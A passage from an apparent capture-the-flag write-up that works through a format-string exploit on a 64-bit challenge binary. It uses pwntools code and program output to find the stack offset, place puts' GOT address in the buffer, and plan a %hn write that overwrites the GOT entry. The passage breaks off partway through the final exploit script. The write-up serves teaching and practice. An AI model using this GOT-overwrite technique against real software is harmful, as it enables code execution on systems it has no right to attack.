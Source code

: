 ```python
#: Exploit code
puts_GOT = 0x404018
exploit = p64(puts_GOT) + ' %8$p'
```
```
You don't have any money to buy @s. You're wasting your time! We don't even sell @s. Leave this place and buy @ somewhere else. Get out!
```
#### Hmmm. There seems to be a problem with our input, it somehow stops at two bytes when there should be more. The problem with this is that `p64(puts_GOT)` contains null bytes, that's why it gets terminated. To bypass this, we need to put it after the format specifier and remember to remove the null bytes to have a clearer picture of the buffer:
```python
#: Exploit code
puts_GOT = 0x404018
exploit = '%8$p ' + p64(puts_GOT)[:3]
```
```
You don't have any money to buy 0x4040182070243825 @@s. You're wasting your time! We don't even sell 0x4040182070243825 @@s. Leave this place and buy 0x4040182070243825 @@ somewhere else. Get out!
```
#### We've printed out the address correct, but the buffer seems wrong. We only need the address for puts' GOT to be in it. So we pad our format specifier with spaces, pushing our target buffer at a higher offset. We need to keep in mind that the addresses will be 8 bytes each since its a 64-bit binary. This is what it looks like (from (666)'s writeup):
```
Before:
[      8th argument    ][          9th argument        ]
[%][8][$][p][40][40][40][00][00][00][00][00]...

After:
[      8th argument    ][          9th argument        ]
[%][8][$][p][ ][ ][ ][ ][40][40][40][00][00][00][00][00]
```
#### After a bit of playing around with the amount of spaces, we get the results we want at offset 10 with a padding of 16 spaces. Take note of the number of spaces, it'll be important for later. Now we need to overwrite puts' GOT entry. We'll need to provide around 4198838 characters to overwrite the GOT address to our desired one, but that won't do since the buffer is only 60 bytes in size. We can bypass this by using another format specifier that prints out an assigned number of spaces. And to write to the amount of spaces to the GOT address, we use the `%hn` specifier. Now to craft our final exploit, we need to remember that the format specifiers must be 16 in length for the exploit to work:
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
# HOST = 'shell.actf.co'
# PORT = 19011
# p = remote(HOST,PORT)
p = process('./purchases')
print(p.recvuntil('purchase? '))

#: Exploit code
offset = 10
```